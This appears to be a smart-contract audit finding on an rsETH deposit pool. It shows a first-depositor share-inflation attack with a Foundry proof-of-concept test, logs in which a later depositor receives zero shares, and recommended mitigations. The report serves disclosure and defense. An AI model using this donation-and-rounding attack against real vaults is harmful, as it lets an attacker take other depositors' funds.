 # First depositor is able to break shares minting 

* In order to calculate rsETH/LST exchange rate, the protocol utilizes the following formula: 
  * $$ rsethAmountToMint = Q(amount) * \frac{rsEthSupply}{totalETHInPool} $$
    * `Q(amount)` - is eth backed by amount of provided LST.
* Which could be manipulated by obtaining very small amount of shares(e.g. 1wei) and then donating a huge amount of LSTs directly into the pool. Due to the rounding issue, subsequent depositors will receive 0 shares, unless further lst amount provided is not more than amount donated by an attacker. 
  

## Proof of Concept
* I've slightly modified `setUp()` in `LRTDepositPoolTest.t.sol` in order to replace `LRTOracleMock` with `LRTOracle` for testing purposes:
  * ```Solidity
        function setUp() public virtual override(RSETHTest, BaseTest) {
            super.setUp();

            // deploy LRTDepositPool
            ProxyAdmin proxyAdmin = new ProxyAdmin();
            LRTDepositPool contractImpl = new LRTDepositPool();
            TransparentUpgradeableProxy contractProxy = new TransparentUpgradeableProxy(
                address(contractImpl),
                address(proxyAdmin),
                ""
            );
            
            lrtDepositPool = LRTDepositPool(address(contractProxy));

            // initialize RSETH. LRTCOnfig is already initialized in RSETHTest
            rseth.initialize(address(admin), address(lrtConfig));
            vm.startPrank(admin);
            // add rsETH to LRT config
            lrtConfig.setRSETH(address(rseth));
            // add oracle to LRT config
            lrtConfig.setContract(LRTConstants.LRT_ORACLE, address(new LRTOracle()));
            lrtConfig.setContract(LRTConstants.LRT_DEPOSIT_POOL, address(lrtDepositPool));
            LRTOracle(lrtConfig.getContract(LRTConstants.LRT_ORACLE)).initialize(address(lrtConfig));

            LRTOracle(lrtConfig.getContract(LRTConstants.LRT_ORACLE)).updatePriceOracleFor(address(rETH), address(new LRTOracleMock(1.09149e18)));
            LRTOracle(lrtConfig.getContract(LRTConstants.LRT_ORACLE)).updatePriceOracleFor(address(stETH), address(new LRTOracleMock(0.99891e18)));
            LRTOracle(lrtConfig.getContract(LRTConstants.LRT_ORACLE)).updatePriceOracleFor(address(cbETH), address(new LRTOracleMock(1.05407e18)));

            lrtDepositPool.initialize(address(lrtConfig));
            // add minter role for rseth to lrtDepositPool
            rseth.grantRole(rseth.MINTER_ROLE(), address(lrtDepositPool));

        }
    ```
* The test to demonstrate an issue:
  * ```Solidity
      function test_DepositAsset() external {
        vm.startPrank(alice);


        rETH.approve(address(lrtDepositPool), 1 wei);
        lrtDepositPool.depositAsset(rETHAddress, 1 wei);

        stETH.transfer(address(lrtDepositPool), 1e19);

        vm.stopPrank();

        vm.startPrank(bob);

        // bob balance of rsETH before deposit
        uint256 bobBalanceBefore = rseth.balanceOf(address(bob));

        stETH.approve(address(lrtDepositPool), 3 ether);
        lrtDepositPool.depositAsset(address(stETH), 3 ether);

        // bob balance of rsETH after deposit
        uint256 bobBalanceAfter = rseth.balanceOf(address(bob));
        vm.stopPrank();

        assertEq(bobBalanceAfter - bobBalanceBefore, 0, "Bob's balance has changed");
    }

* Logs:
* ```bash
    [PASS] test_DepositAsset() (gas: 379116)
        Logs:
        rsEthSupply:  0
        rsETHPrice:  1000000000000000000
        rsethAmount to mint:  1 // an attacker dropped 1 wei of rETH
        rsEthSupply:  1
        price of asset:  998910000000000000
        total amount of assets in pool:  10000000000000000000 // 10 stETH donated by an attacker
        price of asset:  1091490000000000000
        total amount of assets in pool:  1
        price of asset:  1054070000000000000
        total amount of assets in pool:  0
        total eth in pool:  9989100000000000001091490000000000000
        rsETHPrice:  9989100000000000001091490000000000000 // overinflated price
        rsethAmount to mint:  0 // amount of rsETH shares minted after 3 stETH being deposited
    ```

## Recommended Mitigation Steps
- Short term: 
  - Mint some amount of dead shares to `address(0)`, when the `totalSupply() == 0` as it's done in [`UniswapV2Pair.sol`](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124)
  - Also, prevent minting 0 amount of shares.
  
- Long term: N/A